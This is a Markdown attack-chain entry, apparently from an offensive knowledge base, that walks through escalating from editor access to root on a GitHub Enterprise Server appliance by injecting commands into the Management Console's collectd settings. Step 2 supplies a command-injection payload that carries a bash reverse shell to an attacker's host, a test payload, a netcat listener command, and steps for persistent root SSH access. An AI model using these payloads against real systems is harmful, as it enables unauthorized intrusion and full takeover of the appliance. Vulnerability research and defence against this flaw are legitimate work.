

---
tags:
  - command-injection
  - rce
  - privilege-escalation
  - github-enterprise-server
  - collectd
type: attack_chain
tools: []
tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
  - '[[Privilege Escalation]]'
verified: false
platforms:
  - Linux
submitted: true
complexity: medium
procedures:
  - '[[procedures/Command-Injection-in-GitHub-Enterprise-collectd-Configuration]]'
step_count: 2
techniques:
  - '[[Unix Shell]]'
  - '[[Exploitation for Privilege Escalation]]'
description: >-
  An attacker with editor role access exploits command injection in the
  Management Console's collectd configuration to achieve remote code execution
  and escalate privileges to root SSH access on the GitHub Enterprise Server
  appliance.
skill_level: intermediate
impact_level: high
id: cfa48459-75cb-4887-bb6e-da966c9d24b7
created_at: '2025-12-14T17:30:07.569Z'
updated_at: '2025-12-14T17:30:07.569Z'
validated: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
  - '[[Privilege Escalation]]'
mitre_techniques:
  - '[[Unix Shell]]'
  - '[[Exploitation for Privilege Escalation]]'
---
# Editor to Root Privilege Escalation via Command Injection in GitHub Enterprise Server collectd Configuration

Multi-stage attack chain demonstrating a complete attack workflow exploiting a command injection vulnerability in the GitHub Enterprise Server Management Console.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 2 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization

## Prerequisites & Requirements

### Required Tools

- Web browser (e.g., Chrome with developer tools for payload testing)

### Target Environment

- GitHub Enterprise Server appliance running on Linux
- Management Console accessible via HTTPS (typically port 8443)
- collectd service enabled for monitoring

### Initial Access Requirements

- Valid editor role credentials for the Management Console
- Network access to the appliance (direct, VPN, or internal network)
- No prior root access required, but editor privileges are essential

## Detailed Attack Procedures

### Step 1: Initial Access

**Objective**: Gain authenticated access to the Management Console using editor role credentials to reach the collectd configuration interface.

**Instructions**: Open a web browser and navigate to the Management Console URL (e.g., `https://<appliance-ip>:8443/manage`). Log in with editor role credentials. Once authenticated, navigate to the monitoring or services section to locate the collectd configuration settings. Verify access by checking if you can view or edit collectd username and password fields.

**Expected Output**: Successful login and visibility of collectd configuration options without errors.

**Success Indicators**:
- Dashboard loads with editor permissions
- collectd config fields are editable

### Step 2: Execution and Privilege Escalation

procedure: [[procedures/Command-Injection-in-GitHub-Enterprise-collectd-Configuration]]

**Objective**: Inject malicious commands into the collectd username or password configuration fields to trigger remote code execution, escalating privileges to root SSH access.

**Instructions**: In the collectd configuration form, enter a command injection payload in the username field, such as `; /bin/bash -c 'bash -i >& /dev/tcp/<attacker-ip>/<port> 0>&1' #` (replace <attacker-ip> and <port> with your listener details for reverse shell). Alternatively, for testing, use `; id > /tmp/test.txt #` to confirm execution. Set up a netcat listener on your machine (`nc -lvnp <port>`) to catch the reverse shell. Submit the configuration and monitor for execution. Upon success, the injected command runs with elevated privileges, allowing root SSH access via the established shell.

**Expected Output**: Reverse shell connection or file creation confirming RCE; subsequent commands executable as root, including SSH key setup for persistent access.

**Success Indicators**:
- Listener receives incoming connection
- Injected command output appears (e.g., user ID as root)
- SSH login possible with generated keys

## Attack Chain Summary

### Key Achievements

1. Authenticated access to Management Console with editor role
2. Remote code execution via command injection in collectd config
3. Privilege escalation to root, enabling full appliance control including SSH access

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Unix Shell]]
- [[Exploitation for Privilege Escalation]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Execution]]
- [[Privilege Escalation]]

---
*Last updated: 2023-10-01*
